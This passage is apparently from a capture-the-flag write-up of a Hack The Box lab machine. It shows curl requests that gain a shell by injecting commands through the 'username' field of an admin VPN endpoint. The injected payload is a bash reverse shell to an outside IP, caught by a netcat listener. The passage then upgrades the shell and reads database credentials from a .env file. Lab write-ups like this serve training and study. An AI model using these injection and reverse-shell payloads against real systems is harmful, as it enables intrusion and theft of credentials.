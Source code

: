 Looks like I am now admin!

Now to try the last route: admin/vpn/generate

```
$ curl -X POST -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" http://2million.htb/api/v1/admin/vpn/generate
{"status":"danger","message":"Missing parameter: username"}

$ curl -X POST -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" -d '{"username": "admin"}' http://2million.htb/api/v1/admin/vpn/generate > admin.vpn
```

Gives a new vpn file as output.

I inadvertently got a hint about command injection at this point. But I'm not sure I would have thought about it myself anyway!

But this works:

```
$ curl -X POST -H "content-type: application/json" -s -H "Cookie: PHPSESSID=[redacted]" -d '{"username": "admin; $(sleep 5)"}' http://2million.htb/api/v1/admin/vpn/generate
```

Sleeps for some seconds before returning prompt.

I set up a netcat listener:

```
nc -lnvp 4444
```

Sending payload:

```
{"username": "admin; $(bash -c 'bash -i >& /dev/tcp/10.10.16.19/4444 0>&1')"}
```

Works!

And send the payload, and get a reverse shell:

```
www-data@2million:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Upgrade my shell using `script -qc /bin/bash /dev/null`, send to background, run `stty raw -echo; fg`, back to victim and run `reset`, input `screen` and done!

I also always set alias `alias ll='ls -la'` if it's not already set

# Post foothold

Immediately see an interesting file:

```
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=[redacted]
```
